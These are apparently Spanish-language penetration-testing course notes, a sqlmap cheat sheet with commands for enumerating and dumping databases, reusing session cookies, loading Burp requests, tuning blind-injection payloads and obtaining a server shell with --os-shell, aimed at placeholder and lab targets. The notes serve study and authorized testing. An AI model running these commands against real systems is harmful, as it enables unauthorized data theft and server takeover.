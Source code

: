 Es ´preferible especificar la técnica que debemos usar para evitar que la aplicación muestre noisy information o que haga crash(Leer el SQL manual PDF para más detalles en /usr/share/sqlmap/doc/README.pdf

 No todas las inyecciones que muestra funcionan, tendríamos que probar una por una

Nota: Si queremos copiar un query generado por SQLMap en un URL, considerar usa

ar el URL encode para caracteres especiales.

Importante: Para que sqlmap trabaje en una sesión es necesario copiar el parámetro Cookie en la herramienta para mantener la sesión e inyectar logueados como un usuario (también se puede guardar desde burp suite el request completo y poner la ruta en sqlmap)

## Information Gathering

|   |   |
|---|---|
|>sqlmap -u [http://victim.com/view.php?id=123](http://victim.com/view.php?id?123) --users <otras_opciones>|Listar los usuarios de la DB|
|>sqlmap -u [http://victim.com/view.php?id=123](http://victim.com/view.php?id?123) --is-dba <otras_opciones>|Verificar si el user i<br><br>s a DB admin|
|>sqlmap -u [http://victim.com/view.php?id=123](http://victim.com/view.php?id?123) --dbs <otras_opciones>|Lista las DBs disponibles|
|>sqlmap -u [http://victim.com/view.php?id=123](http://victim.com/view.php?id?123) -b|Muestra el banner de la DB|
|>sqlmap -u ‘[http://victim.com/view.php?id=123](http://victim.com/view.php?id?123)’ -p id --technique=U -D DB name --tables <otras_opciones>|Enumera los tables de la DB conectada a la DB victima|
|> >sqlmap -u ‘[http://victim.com/view.php?id=123](http://victim.com/view.php?id?123)’ -p id --technique=U -D DB_name -T Nombre_tabla --columns <otras_opciones>|-T enumera la tabla especificada|
|>sqlmap -u ‘[http://victim.com/view.php?id=123](http://victim.com/view.php?id?123)’ -p id --technique=U -D DB_name -T Nombre_tabla -C col1,col2.col3  –dump <otras_opciones>|Muestra el contenido de las columnas especificadas de la tabla también especificada|

|   |   |
|---|---|
|>sqlmap --dbms=dbms_name|Especificamos manualmente el tipo de DBMS|

![The DBMSs you can specify are: 
• MySQL 
• Oracle 
. PostgreSQL 
• Microsoft SQL Server 
• Microsoft Access 
• SQLite 
• Firebird 
• Sybase 
• SAP MaxDB 
DB2](file:///C:/Users/fredd/AppData/Local/Temp/msohtmlclip1/02/clip_image001.png)

|                                                                                                                                                                                                                  |                                                                                                              |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------ |
| >sqlmap -u "[http://demo.ine.local/sqli_1.php?title=hello&action=search](http://demo.ine.local/sqli_1.php?title=hello&action=search)" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title | cookie de sesión extraído del proxy. Inyecta codigo en el payload title para ver si es vulnerable            |
| >sqlmap -u [http://victim.com/view.php?id=123](http://victim.com/view.php?id?123)                                                                                                                                | automáticamente escanea parámetros                                                                           |
| >sqlmap -u ‘[http://victim.com/view.php?id=123](http://victim.com/view.php?id?123)’ -p id --technique=U                                                                                                          | -p indica el parámetro que se va a explotar y technique el tipo de inyección, en este caso U de UNION based. |
| >sqlmap -u [http://victim.com/view.php?id=123](http://victim.com/view.php?id?123) --tables                                                                                                                       | muestra las tablas de la BQ después de la inyección automatizada                                             |
| >sqlmap -u [http://victim.com/view.php?id=123](http://victim.com/view.php?id?123) --current-db <nombre de tabla> --columns                                                                                       | Después de descubrir las tablas podemos las columnas que tiene                                               |
| >sqlmap -u [http://victim.com/view.php?id=123](http://victim.com/view.php?id?123) --current-db <nombre de tabla> --dump                                                                                          | extrae la información contenida en la tabla                                                                  |
| >sqlmap -u ‘[http://victim.com/view.php?id=123](http://victim.com/view.php?id?123)’ -p id --technique=U --users                                                                                                  | muestra los usuarios de a BD                                                                                 |
| >sqlmap -u ‘[http://victim.com/view.php?id=123](http://victim.com/view.php?id?123)’ -p id --technique=U --dbs                                                                                                    | qué DBs están conectados                                                                                     |
| >sqlmap -u [http://test.com/login.php](http://test.com/login.php)  --data=’user=a&pass=b’ -p user --technique=B --banner                                                                                         | -p usa de payload solo user, technique es Boolean para extraer el banner (versión de la DB)                  |
| >sqlmap -u [http://test.com/login.php](http://test.com/login.php)  --data=’user=a&pass=b’ -p user --technique=B --dbs                                                                                            | muestra las bases de datos conectadas a la nuestra                                                           |

Podemos guardar el HTTP method y parámetros desde burpsuite y usarlo en SQLMap

|   |   |
|---|---|
|>sqlmap -r /ruta/archivo_Burp.txt -p user --technique=B --banner|Mismo resultado|
|>sqlmap -r /ruta/archivo_Burp.txt -p user --technique=B --banner -v3 --flush-session|Hace una limpieza de buffer de la herramienta ya que guarda resultados previos y no los muestra más al hacer la misma consulta. -v3 es debugger|
|>sqlmap -r /root/archivo_burp.t -p title --os-shell|Nos brinda acceso a nivel de shell en la ruta donde está alojado el servidor web|

Los dato de resultado se guardan en un archivo /etc/share/sqlmao/output/sqlmap.test

## Tuneo de Payloads

Para maximizar la precisión de nuestros Blind SQLi, podemos tunear los comandos. 

--string cuando un string está siempre presente en true output pagers o

--not-string para los casos que un string sea siempre false en los output

>`sqlmap -u '[http://localhost/ecommerce.php?id=1](http://localhost/ecommerce.php?id=1)' --string "nokia" <other switches>`

A veces los POST están insertados en un formato como JSON o necesitamos insertar algunos caracteres para hacer el query sintacticamente correcto, podemos usar --prefix y --sufix

>`sqlmap -u '[http://localhost/ecommerce.php?id=1](http://localhost/ecommerce.php?id=1)' --suffix "'));" <other switches>`

### Agresividad de la carga

Por defecto Level 1 testea GET y POST parameters, incrementandolo a 2 testeamos Cookie headers. Al agregar más níveles testeremos otras cabeceras y se incrementará el número de columnas testeadas para in-band exploitation.

**Nota**: Colocando el -p switch hacemos un bypass del nivel. Este significa que manualmente colocaremos el parámetro para testear y lo haremos de una forma mas stealth

**Nota2:** Lanzar SQLMap con un high livel y --risk dejandolo de forma automática es nada profesional y posiblemente causará issues al lado del cliente.

![[Pasted image 20240316064830.png]]


Algunas inyecciones puede tomar tiempo, usamos --keep-alive para reducir el tiempo de espera del tool

`>sqlmap -u '[http://localhost/ecommerce.php?id=1](http://localhost/ecommerce.php?id=1) --keep-alive <otros_comando>`

`>sqlmap -u '[http://localhost/ecommerce.php?id=1](http://localhost/ecommerce.php?id=1) --technique=B --threads 7 <otros_comando>`   *Thread puede ser de 1 a 10*

### SQLMap using Bursuite


`$sqlmap -u "http://10.10.2.131/imfadministrator/cms.php?pagename=tutorials-incomplete"  -cookie "PHPSESSID=432rewr324" --dbs --dbms=mysql --batch --proxy http://127.0.0.1:8080
*batch uses all by default*